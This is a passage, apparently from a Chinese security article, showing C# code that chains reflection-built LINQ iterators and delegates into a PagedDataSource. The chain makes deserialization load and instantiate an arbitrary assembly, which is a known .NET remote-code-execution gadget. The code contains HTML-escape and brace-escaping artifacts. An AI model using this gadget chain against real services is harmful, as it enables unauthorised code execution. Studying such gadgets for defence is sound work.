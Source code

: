 ```
Activator.CreateInstance(Assembly.Load(byte[]).GetTypes().GetEnumerator().`{`MoveNext(),get_Current()`}`)
```

对应的代码为：

```
static IEnumerable&lt;TResult&gt; GetEnum&lt;TSource,TResult&gt;
(
    IEnumerable&lt;TSource&gt; src,
    Func&lt;TSource, bool&gt; predicate,
    Func&lt;TSource, TResult&gt; selector
)
`{`
  Type t=Assembly.Load("System.Core, Version=3.5.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089")
    .GetType("System.Linq.Enumerable+WhereSelectEnumerableIterator`2")
    .MakeGenericType(typeof(TSource),typeof(TResult));
  return t.GetConstructors()[0].Invoke(new object[]`{`src,predicate,selector`}`) as IEnumerable&lt;TResult&gt;;
`}`
IEnumerable&lt;Assembly&gt; e2=GetEnum&lt;byte[],Assembly&gt;(new byte[][]`{`File.ReadAllBytes("RemoteStub.dll")`}`,null,Assembly.Load);
IEnumerable&lt;IEnumerable&lt;Type&gt;&gt; e3=GetEnum&lt;Assembly,IEnumerable&lt;Type&gt;&gt;(e2,
    null,
    (Func&lt;Assembly, IEnumerable&lt;Type&gt;&gt;)Delegate.CreateDelegate
        (
            typeof(Func&lt;Assembly, IEnumerable&lt;Type&gt;&gt;), 
            typeof(Assembly).GetMethod("GetTypes")
        )
);
IEnumerable&lt;IEnumerator&lt;Type&gt;&gt; e4 = GetEnum&lt;IEnumerable&lt;Type&gt;,IEnumerator&lt;Type&gt;&gt;(e3,
    null,
    (Func&lt;IEnumerable&lt;Type&gt;,IEnumerator&lt;Type&gt;&gt;)Delegate.CreateDelegate
    (
        typeof(Func&lt;IEnumerable&lt;Type&gt;,IEnumerator&lt;Type&gt;&gt;), 
        typeof(IEnumerable&lt;Type&gt;).GetMethod("GetEnumerator")
    )
);
IEnumerable&lt;Type&gt; e5 = GetEnum&lt;IEnumerator&lt;Type&gt;,Type&gt;(e4,
    (Func&lt;IEnumerator&lt;Type&gt;,bool&gt;)Delegate.CreateDelegate
    (
        typeof(Func&lt;IEnumerator&lt;Type&gt;,bool&gt;), 
        typeof(IEnumerator).GetMethod("MoveNext")
    ),
    (Func&lt;IEnumerator&lt;Type&gt;,Type&gt;)Delegate.CreateDelegate
    (
        typeof(Func&lt;IEnumerator&lt;Type&gt;,Type&gt;), 
        typeof(IEnumerator&lt;Type&gt;).GetProperty("Current").GetGetMethod()
    )
);
PagedDataSource pds = new PagedDataSource() `{` DataSource = e5 `}`;
//....
ls.Add(e1);
ls.Add(e2);
# ls.Add(e3);
ls.Add(e4);
ls.Add(e5);
ls.Add(pds);
//....
```

